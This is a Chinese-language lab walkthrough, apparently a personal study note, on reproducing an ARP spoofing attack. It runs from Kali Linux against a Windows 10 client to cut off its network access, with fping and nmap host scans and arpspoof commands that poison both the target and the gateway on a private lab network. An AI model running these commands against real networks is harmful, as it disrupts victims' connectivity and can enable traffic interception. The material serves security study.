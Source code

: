 被攻击机：win10客户机

### 欺骗主机实现断网攻击

先在kali中获取需要攻击的目标ip地址以及网关的ip地址：

```shell
# 扫描对应网段所有存活的主机
fping -asg 192.168.96.0/24

# 或者使用也可以得到对应的效果
nmap -sP 192.168.96.0/24
```

![image-20221013215818386](arp%E6%94%BB%E5%87%BB%E5%A4%8D%E7%8E%B0.assets/image-20221013215818386.png)



我们确定需要攻击的目标ip：

**客户机IP192.168.96.133**

**服务器的ip:192.168.1.49**

**网关的ip：192.168.96.2**



注意：在执行攻击之前很多命令都需要管理员权限。

这里要用到一个arp欺骗工具：**arpspoof**, 这个工具kali里面直接输入对应的命令回车，如果没有会让你安装。

这个工具相当于可以不停的去发送欺骗数据包。

```shell
arpspoof   -i   网卡   -t    目标IP    网关
arpspoof -i eth0 -t 192.168.96.133 192.168.96.2  #欺骗客户机96.133
也可以使用反向欺骗：
arpspoof   -i   网卡   -t    网关    目标IP
arpspoof -i eth0 -t 192.168.96.2 192.168.96.133 #欺骗网关96.2
```
